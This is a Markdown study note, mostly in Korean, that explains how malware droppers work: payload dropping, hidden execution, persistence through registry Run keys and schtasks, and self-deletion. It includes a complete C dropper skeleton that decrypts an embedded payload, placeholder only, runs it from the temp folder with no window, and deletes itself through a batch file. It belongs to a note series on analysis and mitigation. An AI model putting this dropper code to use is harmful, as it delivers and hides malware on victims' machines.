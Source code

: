 ## Context

- **Tactic**: Malware Delivery Understanding
- **Technique**: Payload Deployment Analysis
- **Procedure**: Deconstruct dropper behavior and execution stages

## Core Idea

### Dropper란?
- Dropper는 **악성코드 배포를 위한 운반체(배달 상자)** 역할을 수행하는 프로그램이다.
- 최종적으로 실행될 `페이로드(랜섬웨어, RAT, 백도어 등)`를 시스템에 **드롭(Drop)**하여 실행 환경을 구성한다.
- 스스로 악의적인 행동을 수행하지 않으며, **페이로드를 안전하게 전달하고 실행하는 것이 주목적**이다.

![Dropper Schematic Diagram](./images/dropper-schematic-diagram.png)
**Figure 1.** dropper schematic diagram
### Dropper의 특징
- **탐지 회피**: 암호화된 형태로 페이로드를 포함하여 보안 솔루션의 탐지를 우회.
- **다양한 실행 방식**: 디스크에 파일을 저장하거나, 메모리에 직접 로드하여 실행 가능.
- **지속성 유지**: 레지스트리 등록, 작업 스케줄러 설정 등을 통해 시스템 재부팅 후에도 동작할 수 있음.
- **자기 삭제 기능**: 실행 후 탐지를 피하기 위해 흔적을 자동으로 제거 가능.

### Dropper 동작 흐름
![Dropper Execution Flow](./images/dropper-execution-flow.png)
**Figure 2.** dropper execution flow

1. **Dropper 실행** → 사용자가 Dropper(악성 실행 파일)를 실행
2. **페이로드 저장 (Dropping)**: 악성 페이로드를 저장하는 과정 수행
	- **디스크 저장:** `CreateFileA` → `WriteFile` 을 사용하여 디스크에 파일 드롭
	- **메모리 저장:** 페이로드를 메모리에 직접 로드(Reflective DLL Injection 등)하여 실행
3. **페이로드 실행 방식**: 저장된 페이로드를 실행하는 방식 선택
	- **디스크 실행:** `CreateProcessA/W`, `ShellExecute`를 사용하여 페이로드 실행
	- **메모리 인젝션:** `NtMapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` 등을 활용하여 다른 프로세스에 코드 인젝션 후 실행
4. **지속성 확보 (Persistence)**: 악성코드가 재부팅 후에도 실행되도록 설정 가능
	- **레지스트리 수정:** `RegSetValueExA/W`사용, 스타트업, Run 키 등을 수정해 자동 실행 설정
	- **작업 스케줄러 사용:** `schtasks /create` 통해 예약 작업(Task Scheduler)으로 자동 실행 설정
5. **자기 삭제 (Self-Delete)**: 실행 후 탐지를 피하기 위해 자기 자신을 삭제
	- **즉시 삭제:** `cmd /c del` 명령어 실행하여 즉시 파일 삭제
	- **재부팅 후 삭제:** `MoveFileExA`를 사용하여 재부팅 시 삭제 예약

## Code / Experiment
```c
#include <windows.h>
#include <stdio.h>
#include <shlobj.h>

// XOR encryption/decryption
void xor_cipher(char *data, size_t data_len, const char *key, size_t key_len) {
    for (size_t i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main() {
    char tempPath[MAX_PATH], payloadPath[MAX_PATH], batchPath[MAX_PATH];
    char encryptedPayload[] = "ENCRYPTED_PAYLOAD_PLACEHOLDER";
    const char encryptionKey[] = "SECRET_KEY";

    // Generate random file path in temp directory
    GetTempPathA(MAX_PATH, tempPath);
    sprintf(payloadPath, "%s%08x.exe", tempPath, rand());

    // Decrypt payload in memory
    char *decryptedPayload = malloc(sizeof(encryptedPayload));
    memcpy(decryptedPayload, encryptedPayload, sizeof(encryptedPayload));
    xor_cipher(decryptedPayload, sizeof(encryptedPayload), encryptionKey, sizeof(encryptionKey) - 1);

    // Write decrypted payload to disk
    HANDLE hFile = CreateFileA(payloadPath, GENERIC_WRITE, 0, NULL,
                                CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, decryptedPayload, sizeof(encryptedPayload), &written, NULL);
        CloseHandle(hFile);
        free(decryptedPayload);

        // Execute payload
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESHOWWINDOW, .wShowWindow = SW_HIDE };
        PROCESS_INFORMATION pi;
        CreateProcessA(payloadPath, NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
        CloseHandle(pi.hProcess); CloseHandle(pi.hThread);

        // Create batch script for self-deletion
        sprintf(batchPath, "%sdelete.bat", tempPath);
        HANDLE hBatch = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL,
                                    CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hBatch != INVALID_HANDLE_VALUE) {
            char batchContent[512];
            sprintf(batchContent,
                "@echo off\n"
                ":repeat\n"
                "del \"%s\"\n"
                "if exist \"%s\" goto repeat\n"
                "del \"%s\"\n",
                __argv[0], __argv[0], batchPath);
            WriteFile(hBatch, batchContent, strlen(batchContent), &written, NULL);
            CloseHandle(hBatch);
            WinExec(batchPath, SW_HIDE);
        }
    } else {
        free(decryptedPayload);
    }

    return 0;
}
```

## Note

> One of several TTP-focused notes dissecting dropper mechanics.

**[dropper-overview.md](dropper-overview.md)**
- **Tactic:** Malware Delivery Understanding
- **Technique:** Payload Deployment Analysis
- **Procedure:** Deconstruct dropper behavior and execution stages

**[dropper-simulation.md](dropper-simulation.md)**
- **Tactic**: Stealth Engineering
- **Technique**: Dropper Simulation & In-Memory Execution Models
- **Procedure**: Simulate dropper behavior including persistence, obfuscation, anti-analysis, and payload deployment

**dropper-analysis-methods.md**
- **Tactic:** Threat Traceability
- **Technique:** Static & Dynamic Binary Analysis
- **Procedure:** Investigate dropper internals using r2, volatility, and process monitors

**dropper-code-deepdive.md**
- **Tactic:** Execution Mechanics Exploration
- **Technique:** Process Injection & Anti-Analysis
- **Procedure:** Reverse-engineer memory injection, control flow, and evasion logic

**dropper-mitigation.md**
- **Tactic:** Adaptive Defense Modeling
- **Technique:** Behavior Profiling & ML-Aided Detection
- **Procedure:** Design countermeasures using event logging, hardening, and ML classifiers
